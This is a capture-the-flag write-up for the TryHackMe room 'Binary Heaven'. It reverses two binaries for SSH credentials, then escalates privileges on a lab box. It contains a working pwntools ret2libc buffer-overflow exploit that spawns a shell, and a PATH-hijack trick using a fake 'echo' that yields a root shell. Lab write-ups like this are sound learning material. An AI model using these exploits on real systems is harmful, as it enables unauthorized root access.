 # Binary Heaven

https://tryhackme.com/room/binaryheaven

A binex heavy room - which normally I would avoid, as its an area I have little experience in (and all of that painful). But, being a new room with no writeups and needing to keep my streak up, I dived in :) Learned a bit, so thats awesome.

A scan of the box revealed just a single port, 22. The room started with giving you two binaries to reverse in order to get the SSH credentials.

## Part 1: angel_A and angel_B

These two binaries, A and B, contained the ssh username and password respectively. They were in C and Go, i.e. angel_A was 17kb and angel_B was ~2mb :D

### C Binary 'angel_A'

Opening this in ghidra showed code similar to the following:

```c
  printf("\x1b[36m\nSay my username >> \x1b[0m");
  fgets((char *)local_15,9,stdin);
  local_c = 0;
  while( true ) {
    if (7 < local_c) {
      puts("\x1b[32m\nCorrect! That is my name!\x1b[0m");
      return 0;
    }
    if (*(int *)(username + (long)local_c * 4) != (char)(local_15[local_c] ^ 4) + 8) break;
    local_c = local_c + 1;
  }
```

Following that username pointer back showed a block of bytes a bit like this:

```
           00104060 6b              undefined16Bh                     [0]                               XREF[3]:     Entry Point(*), main:00101202(*), 
                                                                                                                     main:00101209(R)  
           00104061 00              undefined100h                     [1]
           00104062 00              undefined100h                     [2]
           00104063 00              undefined100h                     [3]
           00104064 79              undefined179h                     [4]
           00104065 00              undefined100h                     [5]
           00104066 00              undefined100h                     [6]
           00104067 00              undefined100h                     [7]
           00104068 6d              undefined16Dh                     [8]
           00104069 00              undefined100h                     [9]
           0010406a 00              undefined100h                     [10]
           0010406b 00              undefined100h                     [11]
           0010406c 7e              undefined17Eh                     [12]
           0010406d 00              undefined100h                     [13]
           0010406e 00              undefined100h                     [14]
           ... etc
```

If you look closely, you can see every fourth byte looks a bit like its in the ascii range, which kind of matches with this code from the check: `username + (long)local_c * 4`, e.g. take the index we are up to, multiply it by four, and check against that byte. Furthermore, there was a `^ 4` permutation too. I took the bytes from the above block, put them in cyberchef, then messed with XORing until I got the username (it was obvious when the string was unmangled enough to resemble an english word).

### Go Binary 'angel_B'

This challenge was a lot harder. Being Go, opening it in ghidra showed a huge mess, and even though I found where the input is checked, it used some sort of memory check rather than string compare to do it. Furthermore, in a go binary, strings are not stored just as null terminated byte sets: instead they're all in one huge blog which, since a given go binary includes a lot of its standard library, has a huge mass of other strings in there too.

I tried a few things, including straight brute forcing the password using bash like `for i in $(cat all-english-words.txt); do (echo $i | ./angel_B && echo $i) >> result.txt; done;`, which took hours but achieved nothing. I also tried some custom go ghidra scripts from here: https://cujo.com/reverse-engineering-go-binaries-with-ghidra/, and I played around with [Delve](https://github.com/go-delve/delve), a GDB-like program for go debugging, which was fun but ultimately not useful.

In the end, the solution was simple: I reopened Ghidra, and re-examined the binary but on the analysis options screen, selected ALL the options (even the red experimental ones). For whatever reason, while making the decompiled code even more incomprehensible, this fixed the referencing of the memory address being checked at:

```c
  if ((puVar2 == (undefined *)0xb) &&
     (puVar14 = puVar2,
     runtime.memequal(CONCAT71(uVar8,uVar7),CONCAT71(uVar6,uVar5),(int)extraout_RDX,0xb,uVar9,uVar11
                      ,*puVar13,&DAT_004cad0b,0xb,cVar15), uVar4 = extraout_RDX_01, cVar15 != '\0'))
  {
```

that `DAT_004cad0b` above, when followed, led to the password in a sequence of plain ascii bytes. Good job Ghidra, got there in the end :)

## Part 2: Pwning 'pwn_me'

On the box was the user flag, and a suid binary running as the user `binexgod`, called `pwn_me`. When run, this would tell you the `system` location then wait for input. The system location changed each time - ASLR (address space layout randomisation) eas enabled on the box.

This stumped me for a bit - as I said, I am not experienced at binex. I worked out the buffer size was roughly 28 characters and tried, like a blind caveman, shoving the system address into the overwrite position without luck. I went off to do some research, specifically around 'system' and binex.

This led me to ret2system, or more generally **ret2libc**, and I found a tutorial that proved excellent: https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc. This was exactly what I needed - in fact, pwn tools was already on the box! Except... ASLR was already enabled? Meaning that I couldn't just hardcode the location of libc then add offsets...

In the end, perhaps more complicated than I needed to be, I worked out the difference in offset between system and '/bin/sh' in libc, then read the location of system from the program's out and added the offset as needed. The difference between the two was different on my test machine compared to the box, so after proving the method I had to tweak it before final exploitation. To calculate the differences I used `strings -a -t x /lib32/libc.so.6 | grep /bin/sh` to get the strings location, subbed from that `readelf -s /lib32/libc.so.6 | grep system` using a hex calculator, then added that into the script to add to the read system value. The final script (with my host machine's offset, not the targets) was:

```python
from pwn import *

p = process('./pwn_me')

p.recvline()
line2 = p.recvline()
system = int(line2.split(b': ')[1].split(b'\n')[0], 16)
binsh = system + 0x14733c

payload  = b'A' * 32
payload += p32(system)
payload += p32(0x0)
payload += p32(binsh)

p.clean()
p.sendline(payload)
p.interactive()
```

This worked and I had privesc and got binexgod's flag :)

## Part 3: Privesc to Root

The final privesc was a bit of a throwaway: there was another suid binary called `vuln`, which had the source file besides it:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo Get out of heaven lol");
}
```

There was a script which printed an animated nyancat in the terminal (by this point I had added my public key to binexgod's ssh folder so I could just ssh in, getting a nice terminal) but I am pretty sure that was just there as a red herring. The above looked like a plain path exploit, and it was:

```bash
echo /bin/sh -p > echo
chmod +x ./echo
export PATH=/home/binexgod:$PATH
./vuln
```

And I had a root shell and the final flag :)
